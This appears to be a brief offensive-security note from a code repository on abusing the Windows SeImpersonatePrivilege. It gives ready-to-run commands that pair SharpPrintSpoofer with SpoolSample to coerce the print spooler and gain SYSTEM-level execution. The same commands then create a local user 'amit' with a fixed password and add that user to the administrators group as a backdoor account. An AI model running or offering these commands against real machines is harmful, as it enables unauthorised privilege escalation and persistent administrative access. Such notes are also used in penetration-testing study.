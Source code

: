 # Leveraging SeImpersonatePrivilege
- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator:
  1. `.\SharpPrintSpoofer.exe \\.\pipe\test2\pipe\spoolss "net user amit Password123! /add"`
  2. `.\SharpPrintSpoofer.exe \\.\pipe\test2\pipe\spoolss "net localgroup administrators amit /add"`

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test2`
